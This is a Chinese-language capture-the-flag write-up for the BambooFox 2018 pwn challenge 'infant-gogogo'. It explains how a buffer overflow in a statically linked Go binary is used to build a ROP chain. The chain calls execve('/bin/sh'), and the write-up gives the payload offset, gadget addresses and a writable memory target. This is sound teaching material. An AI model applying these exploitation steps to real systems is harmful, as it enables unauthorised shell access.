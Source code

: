 # infant-gogogo

> Challenge Link: [infant-gogogo](http://ctf.bamboofox.cs.nctu.edu.tw/challenges#infant-gogogo)
>
> Category: pwn
>
> Writeup: [infant-gogogo](https://github.com/frozenkp/CTF/tree/master/2018/BambooFox_CTF_2018/infant-gogogo)

Give me your magic text ~~~

`nc bamboofox.cs.nctu.edu.tw 58795`

[infant-gogogo.zip](http://ctf.bamboofox.cs.nctu.edu.tw/files/1f36921a750a6904cf3b6133cecf1554/infant-gogogo.zip)

## 觀察

這支程式可以讓使用者輸入一串字串，看起來跟前一題的 [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 很像

```
% ./infant-gotoheaven                     
Give me your text : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

### Buffer overflow

先試一下是否也有 Buffer overflow

```
% ./infant-gogogo              
Give me your text : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
unexpected fault address 0x0
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x80 addr=0x0 pc=0x489834]

goroutine 1 [running]:
runtime.throw(0x4b9168, 0x5)
        /usr/local/go/src/runtime/panic.go:605 +0x95 fp=0xc420043f28 sp=0xc420043f08 pc=0x427345
runtime.sigpanic()
        /usr/local/go/src/runtime/signal_unix.go:374 +0x227 fp=0xc420043f78 sp=0xc420043f28 pc=0x43a307
main.main()
        /home/frozenkp/Downloads/gobin/infant-gogogo.go:20 +0x1b4 fp=0xc420043f80 sp=0xc420043f78 pc=0x489834
```

最後一行有寫到死在`infant-gogogo.go:20`

用`objdump`看一下發現是死在`ret`，所以應該跟上題一樣，也是可以**蓋到 return address**

![](https://i.imgur.com/J0SdY2P.png)

## 解法

這題跟  [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 的主要差別在於 [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 有提供可以直接拿到 shell 的 `system call` ，這題則要自己建 ROP chain

### payload

先隨便輸入來造成 segmenataion fault，確定程式會產生 buffer overflow，且是死在 return addresss 錯誤

![img](https://i.imgur.com/3w10UGw.png)

計算一下 payload 是 **256**

### ROP chain

因為 Go 的 binanry 檔是 static link 的，基本上可以從裡面拿到各式各樣的 gadget

```
% file infant-gogogo 
infant-gogogo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

#### execve

根據 [這篇](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) 整理的表格，要執行 `execve("/bin/sh")` 的條件是

| rax  | System call | rdi                  | rsi                      | rdx                      |
| ---- | ----------- | -------------------- | ------------------------ | ------------------------ |
| 59   | sys_execve  | const char *filename | const char *const argv[] | const char *const envp[] |

執行 `/bin/sh` 的話，只需要把 `rdi` 指向寫有 `/bin/sh` 的**位址**，`rsi` 及 `rdx`  則設成 0 (NULL) 即可

#### ROP gadget

基本上在設值的時候，如果可以拿到 `pop {resister}; ret` 形式的 gadget 最好，因為可以直接把要丟入的值寫在 gadget 的下一位，例如：

```
ropchain = pop_rax, p64(59)
```

這樣在執行 `pop rax` 時，會將 stack 上的第一位 pop 到 rax 上，而此時的第一位就會是 `p64(59)`

除此之外，也要注意**最後面必須是 ret** ，否則沒辦法繼續執行後段的 ROP chain

尋找 ROP gadget 可以使用指令 `ROPgadget` 搭配 `grep`，例如說要找 `pop rax` 時：

```
% ROPgadget --binary infant-gogogo | grep 'pop rax.*ret'
0x000000000044dd12 : add eax, ebp ; pop rax ; ret
0x000000000044dd10 : and al, 0x10 ; add eax, ebp ; pop rax ; ret
0x0000000000466d3e : je 0x466d67 ; pop rax ; ret
0x000000000044dd0d : or dh, al ; and al, 0x10 ; add eax, ebp ; pop rax ; ret
0x0000000000402563 : pop rax ; add rsp, 0x60 ; ret
0x000000000040e31b : pop rax ; and byte ptr [rax - 1], cl ; ret
0x0000000000448b11 : pop rax ; mov qword ptr [rsp + 0x10], rax ; ret
0x000000000043cfb3 : pop rax ; or byte ptr [rax - 0x7d], cl ; ret
0x000000000040985c : pop rax ; or dh, dh ; ret
0x0000000000404656 : pop rax ; ret
0x0000000000414f4a : pop rax ; ret 0xff2
0x000000000040e318 : sbb byte ptr [rax - 0x75], cl ; pop rax ; and byte ptr [rax - 1], cl ; ret
```

其中可以看到 `0x0000000000404656 : pop rax ; ret` 是最符合的 gadget

#### /bin/sh

前面有說到，`rdi`是寫有 `/bin/sh` 的**位址**，所以需要找一塊空間來寫 `/bin/sh`

在 gdb 中使用 `vmmap` 來尋找可用空間

```
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x0048a000         r-xp      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0048a000         0x0051c000         r--p      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0051c000         0x0052f000         rw-p      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0052f000         0x00550000         rw-p      [heap]
0x000000c000000000 0x000000c000001000 rw-p      mapped
0x000000c41fff8000 0x000000c420100000 rw-p      mapped
0x00007ffff7f5b000 0x00007ffff7ffb000 rw-p      mapped
0x00007ffff7ffb000 0x00007ffff7ffd000 r--p      [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 r-xp      [vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
```

其中有段 `0x0051c000         0x0052f000         rw-p` 是可寫的，我選擇 `0x523000` 來寫，盡量不要選擇太前面或太後面的位置，怕跟其他東西衝到

可以寫入到 `rdi` 的有以下兩句

```
0x0000000000485abd : pop rdi ; cmp dword ptr [rcx], eax ; add byte ptr [rax + 0x39], cl ; ret
0x00000000004518ff : mov qword ptr [rdi], rax ; ret
```

其中，`pop rdi` 的 gadget 後面還有 `add byte ptr [rax + 0x39]`，所以必須確保 `rax+0x39 `是一段可以寫的位址，否則會死掉

因此我先將 `rax` 設成 data 的位址，設完 `rdi` 後，再將 `rax` 設成 `/bin/sh` ，最後填入 `ptr [rdi]` 中即可



所有得條件都設定完成後，執行即可拿到 shell 囉 OwO

